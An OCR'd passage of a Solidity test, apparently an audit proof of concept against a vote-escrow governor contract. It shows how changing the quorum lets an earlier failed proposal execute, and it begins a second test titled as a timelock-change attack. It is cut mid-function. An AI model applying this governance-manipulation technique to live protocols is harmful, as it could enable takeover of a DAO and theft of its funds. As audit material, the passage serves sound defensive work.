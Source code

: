 ```Solidity
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(dead);
        governor.castVote(pid1, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();

        // execute
        hevm.startPrank(admin);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        hevm.expectRevert(abi.encodePacked("Governor: proposal not successful"));
        governor.execute(t1, v1, c1, keccak256(bytes(d1)), MAINNET);
        hevm.stopPrank();

        // The second proposal which aims to change the acceptance quorum

        hevm.startPrank(beef);
        uint256 previousQuorum = governor.quorumNumerator();
        console2.log("Previous Quorum: ", previousQuorum);

        (address[] memory t2, uint256[] memory v2, bytes[] memory c2, string memory d2) = craftUpdateQuorumProposal();
        uint pid2 = governor.propose(t2, v2, c2, d2, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(beef);
        governor.castVote(pid2, 1);
        hevm.stopPrank();

        hevm.startPrank(dead);
        governor.castVote(pid2, 1);
        hevm.stopPrank();

        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period

        // execute
        hevm.startPrank(beef);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        governor.execute(t2, v2, c2, keccak256(bytes(d2)), MAINNET);
        hevm.stopPrank();

        uint currentQuorum = governor.quorumNumerator();

        console2.log("Current Quorum: ", currentQuorum);

        // Finally, the first proposal which didn't executed at first, now it is executed successfully!

        hevm.startPrank(dead);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        governor.execute(t1, v1, c1, keccak256(bytes(d1)), MAINNET);
        hevm.stopPrank();
    }

    function testChangingTheTimelockContractAttack() public {
        createVeAlcx(admin, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef, 5e22, MAXTIME, false);
        createVeAlcx(dead, 15_000e18, MAXTIME, false);
```